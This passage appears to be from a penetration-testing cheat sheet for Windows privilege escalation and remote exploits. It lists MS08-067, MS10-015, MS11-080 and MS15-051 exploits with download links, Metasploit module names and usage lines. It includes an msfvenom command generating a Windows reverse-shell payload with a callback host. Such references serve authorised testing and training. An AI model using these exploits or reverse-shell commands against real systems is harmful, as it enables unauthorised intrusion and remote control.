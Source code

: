 ```
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```

### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

```
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```

### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
